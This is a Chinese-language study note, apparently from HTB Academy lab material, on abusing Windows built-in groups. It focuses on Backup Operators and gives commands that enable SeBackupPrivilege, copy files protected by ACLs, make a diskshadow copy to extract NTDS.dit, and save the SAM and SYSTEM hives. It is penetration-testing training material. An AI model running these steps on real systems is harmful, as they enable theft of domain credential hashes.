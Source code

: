 # windows组权限

# windows内置组

Windows的内置组：
- Backup Operators 备份操作员	
- Event Log Readers 事件日志读取器	
- DnsAdminsDNS 管理员
- Hyper-V AdministratorsHyper-V 管理员
- Print Operators 打印操作员	
- Server Operators 服务器运营商

## Backup Operators备份操作员

显示当前用户的权限状态：
```powershell
whoami /priv
```
Backup Operators的组成员有`SeBackup`和`SeRestore`的权限。
SeBackupPrivilege 允许我们遍历任何文件夹并列出文件夹内容。这将允许我们从文件夹复制文件，即使文件夹的访问控制列表 (ACL) 中没有我们的访问控制条目 (ACE)。但是，我们无法使用标准复制命令来执行此操作。相反，我们需要以编程方式复制数据，确保指定 FILE_FLAG_BACKUP_SEMANTICS 标志。

利用该权限的工具地址`https://github.com/giuliano108/SeBackupPrivilege`

### 权限的一般使用方法

**导入**
Importing Libraries导入库:
```
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

查看该权限的状态：`Get-SeBackupPrivilege`
使用`Set-SeBackupPrivilege`启用该权限
```
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege
```
**复制文件**
可以复制高于自己权限的文件，而被复制后的文件我们有读的权限。
复制示例：
```
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```
### 其他使用方法

**攻击域控制器 - 复制 NTDS.dit**
此组还允许在本地登录到域控制器。Active Directory 数据库 NTDS.dit 是一个非常有吸引力的目标，因为它包含域中所有用户和计算机对象的 NTLM 哈希。但是，此文件已锁定，非特权用户也无法访问。

由于 NTDS.dit 文件默认处于锁定状态，因此我们可以使用 Windows diskshadow 实用程序创建 C 盘的卷影副本，并将其公开为 E 盘。此卷影副本中的 NTDS.dit 不会被系统使用。
diskshadow介绍：`https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow` (好像只有windows的服务器才可以使用，个人PC不行)

大致操作：
```
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
现在已经把文件复制到E盘了，可以使用SeBackUpPrivilege权限把文件复制到其他目录下:
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
(这个操作成功的前提是操作的PC有E盘，或是有别的盘符。)
```

**备份 SAM 和 SYSTEM 注册表配置单元**

备份：
```
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV
The operation completed successfully.
```
值得注意的是，如果文件夹或文件对我们的当前用户或他们所属的组有明确的拒绝条目，这将阻止我们访问它，即使指定了 FILE_FLAG_BACKUP_SEMANTICS 标志。

**其他内容**

详见HTBA-WINDOWS 权限提升-Windows 内置组：
- 从 NTDS.dit 中提取凭据
- 使用 SecretsDump 提取哈希
- 使用 Robocopy 复制文件


## Event Log Readers事件日志读取器

